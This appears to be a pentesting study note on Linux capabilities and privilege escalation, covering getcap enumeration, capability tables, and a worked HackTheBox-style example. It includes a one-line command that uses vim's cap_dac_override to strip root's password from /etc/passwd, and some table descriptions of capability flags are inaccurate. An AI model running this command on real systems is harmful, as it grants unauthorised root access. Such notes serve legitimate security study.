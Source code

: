 ```yaml
---
title: Process capabilities - getcap
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege escalation
  - linux
---
```


# Process capabilities: getcap

Linux capabilities **provide a subset of the available root privileges** to a process. For the purpose of performing permission checks, traditional UNIX implementations distinguish two categories of processes: _privileged_ processes (whose effective user ID is 0, referred to as superuser or root), and _unprivileged_ processes (whose effective UID is nonzero). Privileged processes bypass all kernel permission checks, while unprivileged processes are subject to full permission checking based on the process's credentials (usually: effective UID, effective GID, and supplementary group list).

In Linux, files may be given specific capabilities. For example, if an executable needs to access (read) files that are only readable by root, it is possible to give that file this `permission` without having it run with complete root privileges. This allows for a more secure system in general.

getcap and setcap are used to view and set capabilities, respectively. They usually belong to the libcap2-bin package on debian and debian-based distributions.

### Enumerate
Scan all files in system and check capabilities:

```shell-session
getcap -r / 2>/dev/null
```

Check what every capability means in [https://linux.die.net/man/7/capabilities](https://linux.die.net/man/7/capabilities)

Knowing what capability is assigned to a proccess, try to make the best of it to escalate privileges. 

Also:

```shell-session
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

Example in [HackTheBox: nunchucks](htb-nunchucks.md) in which perl command has " cap_setuid+ep" capabilities, which means that at some point may run as sudo.


| **Capability**         | **Description**                                                                                                                                           |
| ---------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `cap_sys_admin`        | Allows to perform actions with administrative privileges, such as modifying system files or changing system settings.                                     |
| `cap_sys_chroot`       | Allows to change the root directory for the current process, allowing it to access files and directories that would otherwise be inaccessible.            |
| `cap_sys_ptrace`       | Allows to attach to and debug other processes, potentially allowing it to gain access to sensitive information or modify the behavior of other processes. |
| `cap_sys_nice`         | Allows to raise or lower the priority of processes, potentially allowing it to gain access to resources that would otherwise be restricted.               |
| `cap_sys_time`         | Allows to modify the system clock, potentially allowing it to manipulate timestamps or cause other processes to behave in unexpected ways.                |
| `cap_sys_resource`     | Allows to modify system resource limits, such as the maximum number of open file descriptors or the maximum amount of memory that can be allocated.       |
| `cap_sys_module`       | Allows to load and unload kernel modules, potentially allowing it to modify the operating system's behavior or gain access to sensitive information.      |
| `cap_net_bind_service` | Allows to bind to network ports, potentially allowing it to gain access to sensitive information or perform unauthorized actions.                         |

When a binary is executed with capabilities, it can perform the actions that the capabilities allow. Here are some examples of values that we can use with the `setcap` command, along with a brief description of what they do:

| **Capability Values** | **Description**                                                                                                                                                                                                                                                                                                                                                                                                               |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `=`                   | This value sets the specified capability for the executable, but does not grant any privileges. This can be useful if we want to clear a previously set capability for the executable.                                                                                                                                                                                                                                        |
| `+ep`                 | This value grants the effective and permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability.                                                                                                                                                    |
| `+ei`                 | This value grants sufficient and inheritable privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows and child processes spawned by the executable to inherit the capability and perform the same actions.                                                                                                                                    |
| `+p`                  | This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it. |


### Several Linux capabilities can be used to escalate a user's privileges to `root`

| **Capability**     | **Desciption**                                                                                                                                                                                                               |
| ------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `cap_setuid`       | Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the `root` user.                                                                                          |
| `cap_setgid`       | Allows to set its effective group ID, which can be used to gain the privileges of another group, including the `root` group.                                                                                                 |
| `cap_sys_admin`    | This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the `root` user, such as modifying system settings and mounting and unmounting file systems. |
| `cap_dac_override` | Allows bypassing of file read, write, and execute permission checks.                                                                                                                                                         |

### cap_dac_override

Get the capabilities of a binary:

```shell-session
getcap /usr/bin/vim.basic
```

Output:

```
/usr/bin/vim.basic cap_dac_override=eip
```

We can use the `cap_dac_override` capability of the `/usr/bin/vim` binary to modify a system file:

```shell-session
/usr/bin/vim.basic /etc/passwd
```

We also can make these changes in a non-interactive mode:

```shell-session
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
```

Now, we can see that the `x` in that line is gone, which means that we can use the command `su` to log in as root without being asked for the password:

```shell-session
 cat /etc/passwd | head -n1
```

Output:

```
root::0:0:root:/root:/bin/bash
```

## Labs

[HackTheBox: nunchucks](htb-nunchucks.md)



## Resources

[Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)

[https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/](https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/)
